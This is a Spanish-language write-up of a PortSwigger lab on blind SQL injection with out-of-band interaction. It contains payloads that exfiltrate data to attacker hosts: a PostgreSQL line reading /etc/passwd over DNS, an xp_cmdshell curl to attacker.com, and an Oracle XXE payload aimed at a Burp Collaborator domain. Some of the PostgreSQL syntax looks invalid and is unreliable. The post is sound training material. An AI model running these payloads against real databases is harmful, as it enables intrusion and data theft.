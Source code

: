 ```yaml
---
title: "15 Blind SQL injection with out-of-band interaction"
collection: publications
category: portswigger
permalink: /publications/15_Blind SQL injection with out-of-band interaction
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, explotamos la vulnerabilidad de inyección SQL para provocar una búsqueda DNS a Burp Collaborator.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with out-of-band interaction'
---
```


# Explicación de este tipo de ataque

Blind SQL Injection con Interacción Out-of-Band (OOB) es una técnica avanzada de inyección SQL que permite exfiltrar datos de una base de datos a través de canales secundarios, en lugar de depender de la respuesta directa de la aplicación web. Esta técnica se utiliza cuando:

* La respuesta de la aplicación no refleja directamente los resultados de la consulta SQL.
* No se pueden usar demoras basadas en tiempo (time-based blind SQLi).

En estos casos, puedes enviar cargas útiles que generen solicitudes hacia servicios externos (como un servidor controlado por el atacante) para confirmar que la inyección SQL ha sido exitosa o para extraer información.

# ¿Cómo funciona?

En lugar de buscar una respuesta directa o medir tiempos de demora, se aprovechan funciones que permiten realizar interacciones de red o de sistema operativo desde la base de datos hacia un recurso externo. Estas interacciones pueden incluir:

* Realizar una solicitud HTTP/DNS hacia un servidor externo controlado por el atacante.
* Usar comandos del sistema operativo (si la base de datos permite su ejecución) para interactuar con servicios externos.

# Casos comunes de interacción Out-of-Band

## 1. Exfiltración DNS
Se utilizan funciones de la base de datos para realizar una consulta DNS hacia un servidor controlado por el atacante. El nombre de dominio puede codificar datos exfiltrados, como nombres de tablas, columnas o datos específicos.

Ejemplo en PostgreSQL:

```sql
' || (SELECT extract(dns FROM pg_read_file('/etc/passwd') INTO '[your-server].attacker.com'))--
```

En este caso:

* La carga útil fuerza a la base de datos a realizar una consulta DNS hacia un servidor del atacante `(your-server.attacker.com)`.
* El atacante puede capturar esta interacción en su servidor DNS y decodificar los datos exfiltrados.

## 2. Uso de solicitudes HTTP

Algunas bases de datos permiten realizar solicitudes HTTP. Estas solicitudes se pueden usar para enviar datos al atacante.

Ejemplo en Microsoft SQL Server `(usando xp_cmdshell)`:

```sql
'; exec xp_cmdshell 'curl http://attacker.com?data=(SELECT TOP 1 name FROM sysobjects WHERE xtype=''U'')'; --
```

En este caso:

* Se usa `xp_cmdshell` para ejecutar un comando del sistema operativo.
* `curl` realiza una solicitud HTTP hacia el servidor del atacante con el primer nombre de tabla.

## Registros DNS o HTTP dinámicos

En algunos casos, los datos pueden ser exfiltrados directamente como parte del nombre del dominio o parámetros HTTP. Por ejemplo:

Si intentas extraer el nombre de una tabla llamada `users`:

```sql
' || (SELECT pg_sleep(0) WHERE table_name='users' INTO '[users.attacker.com]')--
```

# Beneficios de la interacción Out-of-Band
* No requiere respuesta directa: Es útil cuando las respuestas de la aplicación no reflejan los resultados de la consulta SQL.
* Bypass de restricciones: Puede eludir restricciones en la aplicación o WAFs que bloqueen consultas SQL convencionales.
* Exfiltración indirecta: Permite extraer datos incluso si no se muestran directamente en la aplicación.

# Limitaciones
* Requiere acceso a funciones específicas: Como consultas DNS, HTTP o comandos del sistema operativo, que pueden estar deshabilitadas por configuraciones de seguridad.
* Visibilidad: Las interacciones de red hacia dominios externos pueden ser detectadas por sistemas de monitoreo (IDS/IPS).

![logo]({{site.url}}/images/SQLi/sqli-15/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-15/descripcion.png)

## Objetivo del laboratorio

Explotar una vulnerabilidad SQLi y provocar una busqueda DNS.

## Abrir el Burp Collaborator client

Abrimos el `collaborator` de Burp Suite y presionamos en `Copy to clipboard` nos copiara un dato y lo guardamos. Es un `servidor` donde llegaran las consultas.

`c2fsi8n5y9x07iboz6x97z124takybm0.oastify.com`

![Collaborator]({{site.url}}/images/SQLi/sqli-15/collaborator.png)

## Cheat Sheet

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![Cheat]({{site.url}}/images/SQLi/sqli-15/cheat.png)

Vamos a probar cada uno de los Payloads que nos proporciona la pagina a ver con que motor esta corriendo.

```sql
'|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://SERVIDOR-COLLABORATOR/"> %remote;]>'),'/l') FROM dual)--
```

![Payload]({{site.url}}/images/SQLi/sqli-15/payload.png)

Y revisamos la pestaña de `Collaborator` y presionamos `Poll now` para recibir las peticiones. Y vemos que hemos recibido el datos de la consulta.

![Poll]({{site.url}}/images/SQLi/sqli-15/poll.png)

# Aprobado

![Aprobado]({{site.url}}/images/SQLi/sqli-15/aprobado.png)

